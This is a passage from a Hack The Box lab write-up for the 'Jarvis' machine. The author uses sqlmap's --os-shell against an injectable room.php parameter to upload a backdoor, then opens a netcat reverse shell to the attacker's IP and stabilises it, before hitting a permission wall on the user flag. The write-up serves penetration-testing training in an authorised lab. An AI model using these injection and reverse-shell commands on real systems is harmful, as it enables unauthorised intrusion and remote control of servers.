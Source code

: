 ```bash
[*] hotel
[*] information_schema
[*] mysql
[*] performance_schema

[*] ending @ 08:56:19 /2021-09-06/
```

This isn't much information. Let's try to get a shell (`--os-shell`):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/jarvis]
└─$ sqlmap –u http://jarvis.htb/room.php?cod=1 --dbs --batch --os-shell
---snip---
[10:22:35] [INFO] the file stager has been successfully uploaded on '/var/www/html/'
[10:22:36] [INFO] the backdoor has been successfully uploaded on '/var/www/html/'
[10:22:36] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER
os-shell> id
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
```

There is the shell, but this shell isn't that great, so I spawn a reverse shell:

```bash
os-shell> nc 10.10.16.7 4444 -e /bin/bash
do you want to retrieve the command standard output? [Y/n/a] Y
No output
os-shell>
```

And a shell spawns in the netcat listener:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/jarvis]
└─$ nc -lvnp 4444                   
listening on [any] 4444 ...
connect to [10.10.16.7] from (UNKNOWN) [10.10.10.143] 57168
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@jarvis:/var/www/html$ export TERM=xterm
export TERM=xterm
www-data@jarvis:/var/www/html$ ^Z
zsh: suspended  nc -lvnp 4444
           
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/jarvis]
└─$ stty raw -echo; fg                 
[1]  + continued  nc -lvnp 4444

www-data@jarvis:/var/www/html$
```

I stabilized the shell but was not able to get the user flag, so I need to privesc:

```bash
www-data@jarvis:/home/pepper$ ls
Web  user.txt
www-data@jarvis:/home/pepper$ cat user.txt
cat: user.txt: Permission denied
www-data@jarvis:/home/pepper$
```
